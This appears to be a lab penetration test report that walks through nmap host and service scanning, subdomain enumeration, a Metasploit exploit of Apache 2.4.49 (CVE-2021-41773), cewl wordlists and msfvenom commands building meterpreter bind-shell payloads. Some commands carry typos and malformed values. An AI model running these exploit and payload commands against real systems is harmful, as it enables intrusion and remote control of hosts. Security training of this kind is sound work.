 #  Internal Penetration Test

Submitted by: Israel Barnabas

## Internal Network Penetration Test  
**For**: CYBERLAB  
**Barnabas Security**  
**2024**

---

## Table of Contents
1. [Executive Summary](#executive-summary)
2. [Host Discovery](#Host Discovery)
3. [Service Discovery and Port Scanning](#Service Discovery and Port Scanning)
4. [Vulnerability Scanning](#Vulnerability Scanning)
5. [Web-based Attack surfaces](#Web-based Attack surfaces)
6. [CVSS v3.0 Reference Table](#cvss-v30-reference-table)

---

## Executive Summary
Barnabas Security performed an internal penetration test of in-scope items provided by CYBERLAB from September 13th, 2024, through September 15th, 2024. This report details the process find vulnerability with iin the system.



---
## Host Discovery
Host discovery is the process of identifying active devices (hosts) on a network.By identifying which hosts are live and reachable, you can determine the targets for further probing, such as port scanning and vulnerability analysis.

The internal network to be exploited are `10.10.10.0/24` and domain `https://virtualinfosecafrica.com`


A **ping scan** is executed to test the reachablility of hosts on the ip address i.e `ping 10.10.10.0/24` or `ping virtualinfosecafrica.com`.

Nmap is a tool which can be use for host discovery. Ther a a number of command that are used together in with nmap to yield the desired output such as

`-sL`: List Scan - simply list targets to scan

  `-sn`: Ping Scan - disable port scan eg(`nmap -sn 10.10.10.0/24`)

  `-Pn`: Treat all hosts as online -- skip host discovery

  Using the command `nmap -sL 10.10.10.0/24 > targetlist.txt`
 list all the ip address to be scanned. With a subnet mask of **24**, 256 address are to be produced.

 ![Screenshot_2024-09-15_06_23_33](https://github.com/user-attachments/assets/40a9554b-b69e-400e-9338-b51900369ed7)

 * After running the scan, it is assummed that 15 hosts are up then next step is to filter out of you list of ip address then saved in a file. 

 `$ nmap -sn -iL targetlist.txt | grep -i "nmap scan report" > onlinehost.txt`
 
 ![Screenshot_2024-09-15_21_26_19](https://github.com/user-attachments/assets/3f8036bb-01e0-4283-bc1b-21e01a78791f)

To obtain subdomain enumeration, the `aiodnsbrute`
 tool is used. From the results shown below, a number of subdomain were optained with theire respective ip address.

![Screenshot_2024-09-15_08_45_36](https://github.com/user-attachments/assets/4db48e08-70bc-497a-a0c4-048b045d9842)

---

## Service Discovery and Port Scanning

Service discovery and port scanning are essential steps in network security and penetration testing. They help to identify the services running on a network and the open ports that could potentially be exploited by attackers.

To do servive and port scan, the command `sV` is used. This command **-sV** probe open ports to determine service/version info.

![Screenshot_2024-09-15_09_31_08](https://github.com/user-attachments/assets/999c74c7-6a90-4ffe-a743-8c8f63845e01)

From the output obtained, the various ports and service versions associated with the open ports can be checked for any exploits. The service version `Apache httpd 2.4.49` has been found to have some vulnerabilities. It has a cve number **`2021-41773`**


---

## Vulnerability Scanning

A vulnerability scan is an automated process of identifying security weaknesses in a network, system, or application. It involves using specialized software tools  such as metasploit, nmap, theharvester and so to scan the target for known vulnerabilities, such as outdated software, misconfigurations, open ports, and security flaws. Vulnerability scans provide an essential step in securing systems by identifying and assessing potential points of exploitation that attackers could use to compromise the network.

Using  METASPLOIT for your vulnerability scan;

* First open metasploit with the command `msfconsole`
* When opened, input this command `search cve:2021-41773` (this is the cve for the service version stated above in our service scan)

![Screenshot_2024-09-15_17_35_25](https://github.com/user-attachments/assets/6f050e8d-6e2f-4964-a9eb-982d2b6ea8cd)

* Look for an appropriate module. If available, note the module's path such as `expliot/multi/http/apache_normaalize_path_rce`
* load expliot: `use expliot/multi/http/apache_normaalize_path_rce`
* Set the target host (RHOSTS=10.10.10.20) and target port (RPORT=80), among other options.
* Execute the Exploit: `run`

![Screenshot_2024-09-15_17_41_28](https://github.com/user-attachments/assets/0106cee0-7299-43eb-913d-7ba8f323edab)

To create a custom word,  `cewl` is used which is used to gather potential usernames, passwords, and other keywords for use in dictionary attacks or social engineering. By crawling through the specified website, CeWL collects words that might be relevant to the target organization, allowing attackers to create more targeted wordlists.

![Screenshot_2024-09-15_23_06_16](https://github.com/user-attachments/assets/299fcea1-6552-45c4-911c-0a8c4d9cbffb)

---

## Web-based Attack surfaces
Here potential entry points and vulnerabilities on a web application, website, or web server can exploit.
`eyewitness` is the main tool of focus for this stage.

![Screenshot_2024-09-15_19_07_16](https://github.com/user-attachments/assets/df2faeb0-d6f4-4629-b61c-e57ba8409a0e)

This command allows you to capture the web server.

![Screenshot_2024-09-15_19_12_48](https://github.com/user-attachments/assets/9b87f560-bd4c-4314-8cc7-4a5a25056c34)

file should include the non-standaised ports.

Generating Payloads with Msfvenom


Host 10.10.10.55 (Apache Tomcat)


To generate a payload that triggers a TCP bind shell on execution, use:

`msfvenom -p java/meterpreter/bind_tcp LHOST=10.10. 10.55 LPORT=4444 -f war -o shell_bind.war`

![Screenshot_2024-09-15_19_32_46](https://github.com/user-attachments/assets/a225d706-838e-4bfe-8334-fc1f9f499036)


To generate a base64-encoded payload that executes a TCP bind shell, use:


`msfvenom -p python/meterpreter/bind_tcp LHOST=10.10.10.30 LPORT=4444 -e base64`

![Screenshot_2024-09-15_19_37_55](https://github.com/user-attachments/assets/63ebe9cf-a5a6-4110-bbdb-dcc26553734a)








---



---
## CVSS v3.0 Reference Table
| Qualitative Rating | CVSS Score |
| ------------------ | ---------- |
| None/Informational | N/A        |
| Low                | 0.1 – 3.9  |
| Medium             | 4.0 – 6.9  |
| High               | 7.0 – 8.9  |
| Critical           | 9.0 – 10.0 |

---






